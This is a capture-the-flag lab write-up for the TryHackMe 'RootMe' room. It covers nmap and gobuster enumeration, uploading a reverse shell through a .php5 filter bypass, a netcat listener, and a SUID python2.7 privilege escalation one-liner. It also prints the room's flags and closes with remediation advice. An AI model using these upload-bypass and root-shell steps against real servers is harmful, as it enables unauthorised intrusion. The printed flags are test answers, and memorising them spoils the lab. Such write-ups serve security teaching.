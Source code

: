# Lab Report - RootMe


# Overview 
---
- **Difficulty**: Easy.
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/rrootme
- **Tags**: #enumeration #shell #privesc

## Challenge Description 
---
> **- A beginner's level CTF. 
> - The challenge covers topics such as Reconnaissance, Shell uploading and Privilege Escalation. 
> - Goal : to gain root access over the system. 

## Resolution Summary 
---
> **We Started by performing active reconnaissance using Nmap on the target IP, we found an HTTP website running on port 80. Then we used Gobuster to find hidden directories, we uncovered a hidden upload web page. After testing multiple PHP extensions, we found one that is allowed and uploaded a reverse shell. Upon getting a shell, we exploited the python binary as it had its SUID bit set and it was owned by root. Finally we got root access and retrieved the flags. 

# Information Gathering 
---
## Active Reconnaissance
---

- **We attempted to discover running services on the given IP by running an Nmap scan, we scanned for services versions as well (may reveal usable exploits).
```bash
sudo nmap -sV 10.10.185.141
```
	- Note : Adding the -p- flag did not lead to other results.

- **We found 2 running services, an SSH (22) server and an HTTP server (80).
```bash
#Results 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP (80) 
---
- **Next, we focused on the HTTP server running on port 80. 
- **First, we took a look at the Page Source. We saw that the web server was running a script to display the text on the homepage. (dead end)

- **After that, we ran `GoBuster` to find hidden directories. 
```bash
gobuster dir -u 10.10.185.141 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
``
- **We uncover the following directories : 
```bash
/uploads              (Status: 301) [Size: 316] [--> http://10.10.185.141/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.185.141/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.185.141/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.185.141/panel/]

```

- **Upon further investigation, the /panel directory lead us to an upload web page.** 
# Exploitation 
---
- **Given the upload web page found, we will try to upload a reverse shell on the web server. 
- **We used the PHP reverse shell available on Kali machines (from PentestMonkey) and set up a listener with netcat 
```bash
nc -lnvp 1234
```

- **The server seemed to have filters. Therefore, we tried other PHP extensions.
- **.php5 worked fine and we got a reverse shell.

# Privilege Escalation 
---
- **Once we obtain a webshell, we listed files that had the SUID bit set (we may list files that are owned by root as well).
- **We found that python2.7 does, hence we looked for an exploit on GTFOBins.
- **Then we used : 
```bash
python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")' 
```

- **Which allowed us to gain root access and get the flags : 
```bash 
find -type f -name "user.txt"
cat ./user.txt

find -type f -name "root.txt"
cat ./root.txt
```
# Trophy 
---
> **User.txt**
> **THM{y0u_g0t_a_sh3ll}** 

> **Root.txt**
> **THM{pr1v1l3g3_3sc4l4t10n}**

# Extra Mile 
---
 - **Create an SSH key pair, add your public key to the authorized_keys files in ./ubuntu, gain access to the SSH server.**
 - **Crack the /etc/passwd hashes with JTR or Hashcat (then use credential on the SSH server).**

# Remediation Summary
---
 - **For the Upload web page:** It should have a whitelist instead of a blacklist + Ban the use of particular functions (like system()).
- **Files owned by root:** Binaries like python must not have SUID bit set.
